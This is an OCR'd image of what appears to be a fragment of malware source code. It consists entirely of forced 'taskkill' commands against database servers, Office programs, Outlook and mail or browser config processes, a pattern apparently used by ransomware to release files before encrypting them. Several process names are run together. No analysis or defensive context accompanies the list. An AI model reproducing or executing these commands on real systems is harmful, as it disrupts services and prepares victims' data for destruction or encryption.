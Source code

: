execute  
 taskkill /f /im agntsvc.exeisqlplussvc.exe   
  
execute  
 taskkill /f /im xfssvccon.exe   
  
execute  
 taskkill /f /im mydesktopservice.exe   
  
execute  
 taskkill /f /im ocautoupds.exe   
  
execute  
 taskkill /f /im agntsvc.exeagntsvc.exe   
  
execute  
 taskkill /f /im agntsvc.exeencsvc.exe   
  
execute  
 taskkill /f /im firefoxconfig.exe   
  
execute  
 taskkill /f /im tbirdconfig.exe   
  
execute  
 taskkill /f /im ocomm.exe   
  
execute  
 taskkill /f /im mysqld.exe   
  
execute  
 taskkill /f /im mysqld-nt.exe   
  
execute  
 taskkill /f /im mysqld-opt.exe   
  
execute  
 taskkill /f /im dbeng50.exe   
  
execute  
 taskkill /f /im sqbcoreservice.exe   
  
execute  
 taskkill /f /im excel.exe   
  
execute  
 taskkill /f /im infopath.exe   
  
execute  
 taskkill /f /im msaccess.exe   
  
execute  
 taskkill /f /im mspub.exe   
  
execute  
 taskkill /f /im onenote.exe   
  
execute  
 taskkill /f /im outlook.exe   
  